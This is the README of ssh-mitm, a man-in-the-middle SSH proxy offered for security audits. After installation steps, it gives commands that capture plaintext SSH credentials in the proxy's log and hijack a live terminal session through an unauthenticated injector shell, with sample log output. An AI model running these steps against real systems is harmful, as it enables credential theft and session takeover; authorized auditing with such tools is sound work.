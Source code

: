 # ssh-mitm - intercept ssh traffic

[![CodeFactor](https://www.codefactor.io/repository/github/ssh-mitm/ssh-mitm/badge)](https://www.codefactor.io/repository/github/ssh-mitm/ssh-mitm)
[![PyPI downloads](https://pepy.tech/badge/ssh-mitm/month)](https://pepy.tech/project/ssh-mitm)
[![GitHub](https://img.shields.io/github/license/ssh-mitm/ssh-mitm.svg)](https://github.com/ssh-mitm/ssh-mitm/blob/master/LICENSE)

**man in the middle (mitm) server for security audits supporting public key authentication, session hijacking and file manipulation**

![SSH-MITM example](https://ssh-mitm.at/img/mitm-example.png)

## Installation of SSH-MITM


This part of the documentation covers the installation of SSH-MITM.
The first step to using any software package is getting it properly installed.

### $ python -m pip install ssh-mitm


To install SSH-MITM, simply run this simple command in your terminal of choice:

    $ python -m pip install ssh-mitm


### Get the Source Code


SSH-MITM is actively developed on GitHub, where the code is always available.

You can either clone the public repository:

    $ git clone git://github.com/ssh-mitm/ssh-mitm.git

Or, download the tarball:

    $ curl -L https://github.com/ssh-mitm/ssh-mitm/archive/master.tar.gz | tar xz


Once you have a copy of the source, you can embed it in your own Python package, or install it into your site-packages easily:

    $ cd ssh-mitm-master
    $ python -m pip install .

## Quickstart


Eager to get started? This page gives a good introduction in how to get started with SSH-MITM.

First, make sure that:

* SSH-MITM is :ref:`installed <Installation of SSH-MITM>`
* SSH-MITM is up-to-date

Let’s get started with some simple examples.


### Start the ssh-mitm proxy server


Starting an intercepting mitm-ssh server with password authentication is very simple.

All you have to do is run this command in your terminal of choice.

    $ ssh-mitm --remote-host 192.168.0.x

Now let's try to connect to the ssh-mitm server.
The ssh-mitm server is listening on port 10022.

    $ ssh -p 10022 user@proxyserver

You will see the credentials in the log output.

    2021-01-01 11:38:26,098 [INFO]  Client connection established with parameters:
        Remote Address: 192.168.0.x
        Port: 22
        Username: user
        Password: supersecret
        Key: None
        Agent: None


### Hijack a SSH terminal session


Getting the plain text credentials is only half the fun.
SSH-MITM proxy server is able to hijack a ssh session and allows you to interact with it.

Let's get startet with hijacking the session.

    $ ssh-mitm --remote-host 192.168.0.x --ssh-interface ssh_proxy_server.plugins.ssh.mirrorshell.SSHMirrorForwarder

Connect your ssh client with the ssh-mitm proxy.

    $ ssh -p 10022 user@proxyserver

When a client connects, the ssh-mitm proxy server starts a new server, where you can connect with another ssh client.
This server is used to hijack the session.

    2021-01-01 11:42:43,699 [INFO]  created injector shell on port 34463. connect with: ssh -p 34463 127.0.0.1

To hijack the session, you can use your favorite ssh client. This connection does not require authentication.

    $ ssh -p 34463 127.0.0.1

After you are connected, your session will only be updated with new responses, but you are able to execute commands.

Try to execute somme commands in the hijacked session or in the original session.

The output will be shown in both sessions.


## Authors

- Manfred Kaiser
- Simon Böhm
